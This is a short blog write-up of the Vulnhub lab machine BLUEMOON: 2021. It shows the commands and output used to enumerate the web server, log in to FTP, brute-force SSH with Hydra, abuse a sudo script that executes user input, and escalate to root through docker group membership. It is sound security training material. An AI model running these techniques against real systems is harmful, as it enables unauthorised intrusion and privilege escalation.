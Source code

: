 ```yaml
---
layout: post
title:  "Vulnhub: BLUEMOON: 2021"
date:   2021-04-18 19:00:00 +1100
category: hacking
---
```


## BLUEMOON: 2021
This is [BLUEMOON: 2021](https://www.vulnhub.com/entry/bluemoon-2021,679/) from Vulnhub. It is easy rated and I picked it to do because someone on the Vulnhub discord was looking for a write-up, which made me think maybe it was challenging. After that - and before I got a chance to do it myself - someone else posted a writeup, but I didn't read it. Nevertheless, this is going to be super short, because it was pretty simple. Let's go.

## Ports
FTP, SSH and HTTP. No anon on the FTP.

## Web
It needs some heavy enumeration to find what we want:

{% highlight shell %}
──(root💀kali)-[/opt/vulnhub/bluemoon]
└─# feroxbuster -u http://192.168.1.203 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -C 403

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.2.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.1.203
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405]
 💢  Status Code Filters   │ [403]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.2.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
200       45l      109w     1169c http://192.168.1.203/hidden_text
[####################] - 4m   1273785/1273785 0s      found:1       errors:1219   
[####################] - 4m   1273785/1273785 4912/s  http://192.168.1.203
{% endhighlight %}

Once we have it, we get a link to a QR code which contains FTP credentials.

## FTP
When we login to FTP we get this:

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/bluemoon]
└─# ftp 192.168.1.203                                                                                                                                      130 ⨯
Connected to 192.168.1.203.
220 (vsFTPd 3.0.3)
Name (192.168.1.203:root): userftp
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -lash
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Mar 08 00:28 .
drwxr-xr-x    3 1001     1001         4096 Mar 08 00:24 ..
-rw-r--r--    1 0        0             147 Mar 08 00:27 information.txt
-rw-r--r--    1 0        0             363 Mar 08 00:28 p_lists.txt
{% endhighlight %}

And that contains a username (in the 'information.txt') and a list of passwords. Hydra makes short work of it.

{% highlight shell %}
──(root💀kali)-[/opt/vulnhub/bluemoon]
└─# hydra -l robin -P ./p_lists.txt ssh://192.168.1.203
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-04-18 05:23:25
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 32 login tries (l:1/p:32), ~2 tries per task
[DATA] attacking ssh://192.168.1.203:22/
[22][ssh] host: 192.168.1.203   login: robin   password: k4rv3ndh4nh4ck3r
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-04-18 05:23:32
{% endhighlight %}

And we can SSH in. 

## Robin
Robin can do this:

{% highlight shell %}
robin@BlueMoon:~/project$ sudo -l
Matching Defaults entries for robin on bluemoon:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User robin may run the following commands on bluemoon:
    (jerry) NOPASSWD: /home/robin/project/feedback.sh
{% endhighlight %}

Which is:

{% highlight shell %}
robin@BlueMoon:~/project$ cat feedback.sh 
#!/bin/bash

clear
echo -e "Script For FeedBack\n"

read -p "Enter Your Name : " name
echo ""
read -p "Enter You FeedBack About This Target Machine : " feedback
echo ""
$feedback 2>/dev/null

echo -e "\nThanks For Your FeedBack...!\n"
{% endhighlight %}

In case it's not obvious, whatever is entered on the second read will be executed. I use *sh* to get a shell as Jerry and then upgrade it with python.

## Jerry > root
Jerry is in the docker group:

{% highlight shell %}
id
uid=1002(jerry) gid=1002(jerry) groups=1002(jerry),114(docker)
docker run -it -v /:/mnt alpine chroot /mnt
root@a93f401a9aa9:/# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
root@a93f401a9aa9:/# id;date;hostname
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
Sun Apr 18 01:40:42 PDT 2021
a93f401a9aa9
root@a93f401a9aa9:/#
{% endhighlight %}

So that was that, see ya.
